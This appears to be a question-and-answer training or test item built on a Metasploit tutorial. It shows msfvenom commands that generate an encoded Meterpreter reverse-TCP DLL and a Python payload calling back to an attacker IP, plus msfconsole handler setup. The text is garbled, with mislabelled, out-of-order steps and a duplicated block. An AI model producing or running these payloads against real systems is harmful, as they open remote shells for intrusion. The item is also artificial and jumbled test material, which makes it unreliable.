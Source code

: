 Context:```

`

# How to generate a dll with msfvenom
This command uses `msfvenom` to create a DLL payload that establishes a reverse TCP connection to the specified attacker's IP and port.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f dll -e x86/shikata_ga_nai -i 5 -o malicious.dll
### Step 1: Generate the executable payload

On the attacker's box, run `

`bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run
```

### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

 Question: Generate a command using Metasploit’s msfvenom to create a Windows DLL payload for a reverse TCP connection, specifying the (windows/meterpreter/reverse_tcp) payload with placeholders for LHOST and LPORT. After structuring the command, modify it to change the output format from "dll" to "py" and set the output file name to "malicious.py". 
```
 Your response: 
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.6 LPORT=4444 -f py -e x86/shikata_ga_nai -i 5 -o malicious.py
```
